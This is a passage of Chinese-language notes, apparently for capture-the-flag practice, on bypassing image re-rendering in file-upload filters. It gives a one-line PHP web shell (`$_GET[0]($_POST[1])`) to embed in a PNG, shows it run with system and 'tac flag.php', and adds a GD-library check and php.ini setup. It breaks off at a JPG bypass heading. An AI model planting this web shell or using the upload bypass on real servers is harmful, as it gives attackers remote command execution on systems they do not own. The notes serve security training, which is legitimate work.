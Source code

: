木马内容

```php
<?$_GET[0]($_POST[1]);?>
```

imagepng($img,'1.png');

要修改的图片的路径,1.png是使用的文件，可以不存在

会在目录下自动创建一个1.png图片

图片脚本内容：

```php
$_GET[0]($_POST[1]);
```

使用方法：

例子：查看图片，get传入0=system；post传入tac flag.php

注：

运行上面的代码需要有php的gd库

下面的代码可以检测是否有gd库的存在

```php
<?php
  if(extension_loaded('gd')) {
  echo '可以使用gd
';
foreach(gd_info() as $cate=>$value)
  echo "$cate: $value
";
}else
echo '没有安装gd扩展';
?>
```

如没有

把你PHP目录下的ext文件夹里的php_gd.dll复制到系统目录下(C:\Windows\System32),然后修改你的php.ini文件,找到以下位置

```php
;extension=php_gd.dll
```

把前面的;去掉

如php.ini中没有extension=php_gd.dll，自行添加即可

将生成的图片上传，bp抓包

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681142511298-9719e2bd-2127-47d9-8c95-298c282bb856.png#alt=img)

## jpg二次渲染

运用以下脚本进行jpg二次渲染绕过
